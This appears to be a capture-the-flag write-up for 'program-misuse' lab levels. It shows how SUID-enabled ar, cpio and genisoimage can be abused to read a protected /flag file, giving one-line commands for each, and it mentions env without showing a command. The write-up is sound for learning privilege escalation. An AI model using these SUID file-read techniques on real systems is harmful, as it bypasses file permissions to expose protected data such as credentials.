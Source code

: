 &nbsp;

## ar

> I just set the SUID bit on /usr/bin/ar.\
> Try to use it to read the flag!

 `ar` program creates, modifies, and extracts from archives.

We can specify the output file using the `r` option.

```
hacker@program-misuse~level21:/$ ar r /flag.a /flag && cat /flag.a
```

&nbsp;

## cpio

> I just set the SUID bit on /usr/bin/cpio.\
> Try to use it to read the flag!

The `cpio` utility can be copy files between archives.

We can use the `find` command for the `/flag` , pipe it with `cpio` and redirect the output to the `flag.cpio` file.

```
hacker@program-misuse~level22:~$ find /flag | cpio -o > flag.cpio && cat flag.cpio
```

&nbsp;

## genisoimage

> I just set the SUID bit on /usr/bin/genisoimage.\
> Try to use it to read the flag!

The `genisoimage` utility creates filesystem images.

In order to retrieve the flag, we have to use the following script:

```
hacker@program-misuse~level23:/$ for option in $(genisoimage --help 2>&1 | grep FILE | awk {'print $1'}); do echo $option; genisoimage $option /flag 2>&1 | grep pwn; done
```

&nbsp;

## env

> I just set the SUID bit on /usr/bin/env.\
> Try to use it to read the flag!

The `env` utility sets the environment for another command.

We can pair it with `cat` to read the flag.
